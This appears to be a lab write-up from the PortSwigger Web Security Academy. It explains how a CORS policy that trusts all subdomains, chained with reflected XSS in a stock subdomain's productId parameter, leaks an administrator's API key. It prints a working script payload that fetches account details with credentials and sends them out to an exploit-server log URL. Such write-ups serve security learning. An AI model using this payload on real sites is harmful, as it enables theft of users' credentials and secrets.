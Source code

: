 ### CORS vulnerability with trusted insecure protocols
This is a challenging LAB, at least for me, since I had problem to understand how CORS related concepts work clearly.<br>
We have the following information:
1. This website has an insecure CORS configuration that trusts all subdomains 
1. The trust relation is not protocol aware

To solve the lab we have to get the administrator's API key, expoliting CORS vulnerability using Javascript, so we can infer that we need to implement some asynchronous mechanism.<br>
First of we have to find the insecure CORS configuration, inspecting the history in Burp proxy we can see that a response to the <b>accountDetails request</b> is in a JSON format, moreover we can notice that in the response the <b>Access-Control-Allow-Credentials</b> is set, that suggests that an asynchronous request could be in place.
<br>![img](./img/55.png)<br>
Lets try to test the CORS security context adding the <b>origin</b> header to the request, if we get back the origin value in the <b>Access-Control-Allow-Origin</b> it means that the response can be shared with requesting code from the given origin. The use cases tested are the following:
+ Origin: null -> fails: Access-Control-Allow-Origin is not returned
+ Origin: https://www.google.it -> fails as above
+ Origin: https://test.LAB-ID..web-security-academy.net -> <b>OK</b>: the value is reflected into Access-Control-Allow-Origin response header
<br>![img](./img/56.png)<br>
So we know that we can issue cross-site request from a subdomain. Now we have to find a vulnerability to be exploited through a web page hosted in a lab sunbdomains, again lets inspect the Burp history while we navigate the lab. 
<br>![img](./img/57.png)<br>
From the above image we can see that a call to the <b>stock subdomain</b> is performed to check the stock amount, then sending the request to the Repeater we can try to verify if the query string parameters are injectable:
<br>![img](./img/58.png)<br>
The <b>productId</b> parameter is right to us, since  is prone to XSS attacks, we can take advantages of this vulnerability to exploit the CORS security lack. First of all, we will test if we are able to get the account details information for the current user, from the vulnerable stock web page hosted in the lab subdomain. We will delivery the following payload to try to get the account details for the current logged user (we must use credentials: 'include' in the fetch request to pass the credentials).
<br>![img](./img/59.png)<br>
Further we can see the response in the browser (right click in request section in the Repeater to get the URL)
<br>![img](./img/60.png)<br>
Finally we craft the payload to be set in the exploit server, we have to direct the flow to the vulnerable stock page first, then we redirect the response containing the account details to the exploit server log page as the query string parameter:
<br>![img](./img/61.png)<br>
As shown in the image above, I encoded (URL format) the actual payload passed as <b>productID parameter</b> (highlighted), for your convenience this is the plain version:
```
<script>
fetch('https://0a6e004204f74b30c142e98100f9006b.web-security-academy.net/accountDetails', {credentials: 'include'})
.then(response => response.text())
.then((response) => document.location='https://exploit-0aa600e7048e4bcac12de85a010500dd.exploit-server.net/log?x='+response);</script>

```
Once the explit is stored (1) we can verify if it works (2). As shown below, we can see that the redirection to exploit server access log works and that the account details are trasmitted into the query string
<br>![img](./img/62.png)<br>
Then we can delivery our payload to the victim and inspecting the access log: we can see the account details (URL encoded) for the administrator user
<br>![img](./img/63.png)<br>
Decode the query string <b>x parameter</b> value to get the API key

References:
+ https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Sec-Fetch-Mode
+ https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Sec-Fetch-Site
+ https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Origin
+ https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch
